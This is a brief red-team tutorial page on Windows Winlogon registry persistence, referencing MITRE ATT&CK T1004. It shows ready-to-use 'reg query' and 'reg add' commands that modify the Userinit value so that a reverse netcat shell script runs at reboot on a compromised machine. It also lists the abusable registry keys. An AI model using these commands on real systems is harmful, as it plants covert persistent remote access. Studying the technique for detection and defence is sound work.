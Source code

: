 # Windows Logon Helper

> Winlogon.exe is a Windows component responsible for actions at logon/logoff as well as the secure attention sequence \(SAS\) triggered by Ctrl-Alt-Delete.
>
> [https://attack.mitre.org/techniques/T1004/](https://attack.mitre.org/techniques/T1004/)

Commonly abused Winlogon registry keys and value for persistence are:

```text
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify 
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\shell
```

{% hint style="info" %}
HKCU can also be replaced with HKLM for a system wide persistence, if you have admin privileges.
{% endhint %}

## Execution

Let's run through the techqnique abusing the `userinit` subkey.

Let's see what's currently held at the `userinit`:

```text
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit
```

![](../../.gitbook/assets/image%20%2821%29.png)

Let's now add an additional item shell.cmd \(a simple reverse netcat shell\) to the list that we want to be launched when the compromised machine reboots:

```text
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v userinit /d C:\Windows\system32\userinit.exe,C:\tools\shell.cmd /t reg_sz /f
```

![](../../.gitbook/assets/image%20%28432%29.png)

Rebooting the compromised system executes the c:\tools\shell.cmd, which in turn establishes a reverse shell to the attacking system:

![](../../.gitbook/assets/image%20%28345%29.png)

## References

{% embed url="https://attack.mitre.org/techniques/T1004/" caption="" %}

